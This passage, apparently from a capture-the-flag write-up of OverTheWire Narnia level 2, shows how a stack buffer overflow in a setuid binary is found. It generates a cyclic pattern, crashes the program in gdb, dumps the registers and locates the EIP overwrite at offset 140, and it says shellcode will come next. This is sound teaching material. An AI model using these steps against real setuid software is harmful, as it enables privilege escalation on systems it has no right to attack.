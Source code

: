 	return 0;
}
{{< / highlight >}}

The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. `narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite `EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my [pattern generator](https://github.com/Svenito/exploit-pattern) instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of `EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

{{< highlight console >}}
local $] ./pattern.py 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
{{< / highlight >}}

{{< highlight console >}}
narnia2@melinda:/narnia$ gdb -q narnia2
Reading symbols from narnia2...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
(gdb) info reg
eax            0x0	0
ecx            0x0	0
edx            0xf7fcb898	-134432616
ebx            0xf7fca000	-134438912
esp            0xffffd640	0xffffd640
ebp            0x65413565	0x65413565
esi            0x0	0
edi            0x0	0
eip            0x37654136	0x37654136
eflags         0x10282	[ SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
{{< / highlight >}}

{{< highlight console >}}
local $] ./pattern.py 0x37654136
Pattern 0x37654136 first occurrence at position 140 in pattern.
{{< / highlight >}}
